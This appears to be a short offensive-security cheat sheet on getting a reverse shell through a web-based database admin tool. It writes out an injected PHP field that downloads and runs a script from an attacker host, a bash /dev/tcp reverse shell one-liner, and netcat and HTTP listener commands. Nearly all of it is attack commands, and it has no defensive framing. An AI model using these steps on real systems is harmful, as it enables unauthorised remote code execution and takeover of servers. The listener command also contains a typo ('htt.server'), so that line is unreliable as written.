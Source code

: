 ### Get reverse shell using php code
```
Create New Database > <databaseName>.php > Create
Change Database > <databaseName>.php > Structure > Create new table on database '<databaseName>.php' > Name: <tableName> > Number of Fields: 1 > Go
Field: <?php exec("wget <lhost>/<revShell> -O /tmp/sh && bash /tmp/sh"); ?> > Type: Text > Create
```

### Get path to php file
```
Change Database > <databaseName>.php > Path to database
```

### Generate reverse shell
```
echo "bash -i >& /dev/tcp/<lhost>/<lport> 0>&1" > <revShell>
```

### Start listener
```
sudo python3 -m htt.server 80
nc -lnvp <lport>
```

